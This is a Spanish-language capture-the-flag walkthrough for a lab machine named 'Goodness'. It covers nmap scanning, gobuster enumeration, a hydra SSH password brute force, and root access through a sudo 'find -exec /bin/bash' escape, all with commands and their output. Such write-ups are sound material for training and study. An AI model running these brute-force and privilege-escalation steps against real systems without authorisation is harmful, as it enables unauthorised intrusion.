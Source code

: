 ```yaml
---
icon: flag
---
```


# CTF Goodness Easy

URL Download CTF =[ ](https://drive.google.com/file/d/1Egn3NKBBF8eRtGG9xMpcb-LnzwgCb6pH/view?usp=sharing)[https://drive.google.com/file/d/1ZfCHQlCeloiXfcwoz4iXhbsv3e2mY0oM/view?usp=sharing](https://drive.google.com/file/d/1ZfCHQlCeloiXfcwoz4iXhbsv3e2mY0oM/view?usp=sharing)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-03 14:31 CEST
Nmap scan report for 192.168.5.217
Host is up (0.00047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 66:c8:a5:dd:46:68:3c:b6:2f:ee:41:54:d9:6a:f6:69 (ECDSA)
|_  256 9e:50:82:05:f9:69:51:4a:5b:11:5c:7c:34:ec:cf:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: CTF - Goodness
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 00:0C:29:63:06:E2 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.92 seconds
```

Veremos una pagina web normal y corriente en la que no habra mucho que hacer, por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.217/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 6705]
/agora                (Status: 200) [Size: 2743]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos que hemos encontrado un archivo llamado `/agora` y si entramos dentro del mismo veremos otra pagina web, si inspeccionamos el codigo veremos lo siguiente:

```
URL = http://<IP>/agora
```

```html
<!-- Mira bien la pagina  -->
```

Si miramos bien la pagina, veremos que en el `footer` pone lo siguiente:

```
Creado por: god
```

Podremos ver lo que puede ser un usuario llamado `god` por lo que vamos a realizar un poco de `fuerza bruta` con dicho usuario de la siguiente forma.

## Escalate user god

### Hydra

```shell
hydra -l god -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-03 15:27:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.217:22/
[22][ssh] host: 192.168.5.217   login: god   password: love
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 17 final worker threads did not complete until end.
[ERROR] 17 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-03 15:27:54
```

Veremos que hemos encontrado las credenciales de dicho usuario, por lo que nos vamos a conectar por `SSH`.

```shell
ssh god@<IP>
```

Metemos como contraseña `love` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario `god`.

> user.txt

```
FLAG{user_goodness_flag}
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for god on goodness:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User god may run the following commands on goodness:
    (ALL : ALL) ALL
    (ALL : ALL) NOPASSWD: /usr/bin/find
```

Veremos que podemos ejecutar `find` como el usuario `root`, pero tambien tendremos directamente todos los privilegios de `root`, aunque si lo hacemos por el binario `find` seria de la siguiente forma:

```shell
sudo find . -exec /bin/bash \; -quit
```

Info:

```
root@goodness:/home/god# whoami
root
```

Veremos que seremos `root`, por lo que leeremos la `flag` del usuario `root`.

> root.txt

```
FLAG{goodness_flag}
```
